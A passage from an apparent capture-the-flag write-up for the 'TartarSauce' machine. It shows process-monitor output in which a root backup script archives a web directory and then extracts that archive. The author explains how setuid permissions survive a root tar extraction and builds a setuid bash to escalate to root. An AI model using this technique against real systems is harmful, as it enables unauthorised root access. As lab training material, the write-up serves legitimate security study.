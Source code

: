 ```
2022/01/04 08:03:15 CMD: UID=0    PID=17544  | /usr/bin/printf - 
2022/01/04 08:03:15 CMD: UID=0    PID=17546  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:15 CMD: UID=0    PID=17547  | /usr/bin/printf - 
2022/01/04 08:03:15 CMD: UID=0    PID=17549  | /usr/bin/printf - 
2022/01/04 08:03:15 CMD: UID=0    PID=17551  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:15 CMD: UID=0    PID=17552  | /usr/bin/printf - 
2022/01/04 08:03:15 CMD: UID=0    PID=17553  | /usr/bin/printf - 
2022/01/04 08:03:15 CMD: UID=0    PID=17554  | 
2022/01/04 08:03:15 CMD: UID=0    PID=17556  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:15 CMD: UID=0    PID=17558  | /usr/bin/printf - 
2022/01/04 08:03:15 CMD: UID=0    PID=17559  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:15 CMD: UID=0    PID=17561  | /usr/bin/printf - 
2022/01/04 08:03:15 CMD: UID=0    PID=17562  | /bin/date 
2022/01/04 08:03:15 CMD: UID=0    PID=17563  | 
2022/01/04 08:03:15 CMD: UID=0    PID=17564  | /bin/rm -rf /var/tmp/. /var/tmp/.. /var/tmp/check 
2022/01/04 08:03:15 CMD: UID=0    PID=17568  | /bin/sleep 30 
2022/01/04 08:03:15 CMD: UID=0    PID=17567  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:15 CMD: UID=1000 PID=17572  | gzip 
2022/01/04 08:03:15 CMD: UID=1000 PID=17571  | /bin/tar -zcvf /var/tmp/.a2a36b52630e5338e648b65e1fad5e2de6664db7 /var/www/html 
2022/01/04 08:03:45 CMD: UID=0    PID=17578  | gzip -d 
2022/01/04 08:03:45 CMD: UID=0    PID=17577  | /bin/tar -zxvf /var/tmp/.a2a36b52630e5338e648b65e1fad5e2de6664db7 -C /var/tmp/check 
2022/01/04 08:03:46 CMD: UID=0    PID=17580  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:46 CMD: UID=0    PID=17579  | /bin/bash /usr/sbin/backuperer 
2022/01/04 08:03:46 CMD: UID=0    PID=17581  | /bin/mv /var/tmp/.a2a36b52630e5338e648b65e1fad5e2de6664db7 /var/backups/onuma-www-dev.bak 
2022/01/04 08:03:46 CMD: UID=0    PID=17582  | /bin/rm -rf /var/tmp/check . .. 
2022/01/04 08:03:46 CMD: UID=0    PID=17583  | 
2022/01/04 08:03:46 CMD: UID=0    PID=17586  | /lib/systemd/systemd-cgroups-agent /system.slice/backuperer.service 
```

An important piece of this puzzle is most like the backuperer script

```
www-data@TartarSauce:/$ ls -al /usr/sbin/backuperer
ls -al /usr/sbin/backuperer
-rwxr-xr-x 1 root root 1701 Feb 21  2018 /usr/sbin/backuperer
```

## Privilege Escalation onuma to root

Analysing the backuperer we can exploit its functionality combined with the fact that tar extracts keep the file and suid permissions after the extraction. We need a root level privilege to extract our root owned files, and the script does that for us.


Copy the bash file to our attacker host and create the directory tree with bash having suid bit set. The bash file can be easily transferred using wget once the file on the target has been copied to the root of the web server.

Set the suid bit and execution permissions
```
$ sudo chmod a+x bash && sudo chmod u+s bash
                                                                                                                                                                   
┌──(kali㉿kali)-[~/…/setuid/var/www/html]
└─$ ls -al
total 1092
drwxr-xr-x 2 root root    4096 Jan  4 12:08 .
drwxr-xr-x 3 root root    4096 Jan  4 12:07 ..
-rwsr-xr-x 1 root root 1109564 Jan  4 12:08 bash
```
